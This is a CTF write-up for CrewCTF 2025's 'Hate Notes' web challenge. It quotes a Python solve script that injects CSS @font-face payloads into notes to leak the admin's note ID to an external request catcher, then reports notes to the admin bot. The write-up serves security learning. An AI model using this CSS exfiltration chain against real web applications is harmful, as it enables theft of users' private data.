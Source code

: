 +++
date = '2025-09-26T14:47:48+07:00'
title = 'Crew CTF 2025 - Hate Notes Write-up'
tags = ['Crew CTF 2025', 'CTFs']
description = 'Thinking outside the box gives you a clue (Love Notes), but do you have what it takes to solve it?'
draft = false

[cover]
  image = '/images/posts/crew-ctf-2025.webp'
  alt = 'Crew CTF 2025 - Hate Notes'
  caption = 'Crew CTF 2025 - Hate Notes'
  relative = false
+++

> **Room / Challenge:** Hate Notes (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** CrewCTF 2025
-   **Challenge:** Hate Notes (web)
-   **Target / URL:** `https://hate-notes.chal.crewc.tf/`
-   **Difficulty:** `Medium`
-   **Points:** `426`
-   **Tags:** web, xss, sqli, auth, enumeration
-   **Date:** `21-09-2025`

---

## Goal

We have to get access to the flag `crew{...}` in the admin's note which the `bot` can view.

## My Solution

Love Notes and Hate Notes share 99% of their code, but Love Notes had many more solutions than Hate Notes: [My Solution for Love Notes](./love-notes.md)

You can download the source code of Hate Notes for further investigation: [Source Code](./hate-notes.tar.gz)

Hate Notes blocks all XSS Scripting or any kind of Javascript works in all pages of their website included the `/api/notes/<NOTE_ID>` which we can take advantage of in the Love Notes.

There is other solution for this we will do CSS Exfiltration, in this challenge font exfiltration is widely used to solve. You can take a look at this `solve.py` from the author `bubu` of the challenge. [Link](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/hate-notes/solve.py)

```python
import json
import time
import random
import string
import requests

URL = "http://localhost:8000"

# Example:
#      f54dbf57-3317-4d6c-b903-bc56868fd728
EXFILTRATION = "https://player.requestcatcher.com/"
UID = ""

def register(user, password):
    r = requests.post(URL+'/api/auth/register', data={'email': user, 'password': password})


def login(user, password):
    r = requests.post(URL+'/api/auth/login', data={'email': user, 'password': password}, allow_redirects=False)
    return r.cookies["token"]


def first_payload(cookie):
    global UID
    payload = ""
    for letter in string.hexdigits[:16]:
        character = UID + letter
        payload += """
        @font-face {
          font-family: exfilFont"""+character+""";
          src: url(""" + EXFILTRATION +  """?id="""+character+""");
        }
        a[href^='/api/notes/""" + character + """'] {
          font-family: exfilFont"""+character+""";
        }
        """
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content':' '}).text)["id"]

def second_payload(id, cookie):
    payload = f"""<link rel=stylesheet href="/static/api/notes/{id}"/>"""
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content': ' '}).text)["id"]

def report(id, cookie):
    print(f"Reporting... {id}")
    r = requests.post(URL+'/report', cookies=cookie, data={'noteId': id})
    print(r.text)


USER = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
PASSWORD = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
print(f"USER {USER} -- PASSWORD {PASSWORD}")
register(USER, PASSWORD)
cookie = login(USER, PASSWORD)
while True:
    print(f"[X] UID: {UID}")
    id = first_payload({'token': cookie})
    id = second_payload(id, {'token': cookie})
    report(id, {'token': cookie})
    time.sleep(0.5)
    new_char = input("> ")
    UID += new_char
    if len(UID) in [8,13,18,23]:
        UID += '-'
```

In this method, we also use two note trick:

First note:

```
Title: @font-face (font exfiltration)
```

Second note:

```
Title: <link rel=stylesheet href="/static/api/notes/<FONT_EXFILTRATION_NOTE_ID>"/>
```

By this way, we can get the note id that contains the flag char by char. Then we can just simply type `/dashboard?reviewNote=<DISCOVERED_NOTE_ID>`.

You can get the flag `crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`.

## Lessons Learned

-   CSS Exfiltration
